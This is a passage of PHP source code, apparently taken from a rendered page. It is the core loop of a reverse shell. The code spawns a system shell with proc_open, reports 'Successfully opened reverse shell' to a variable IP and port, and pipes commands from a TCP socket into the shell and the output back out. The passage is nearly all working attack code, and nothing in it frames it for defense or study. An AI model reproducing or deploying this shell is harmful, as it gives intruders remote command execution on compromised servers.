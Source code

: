 ```

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

```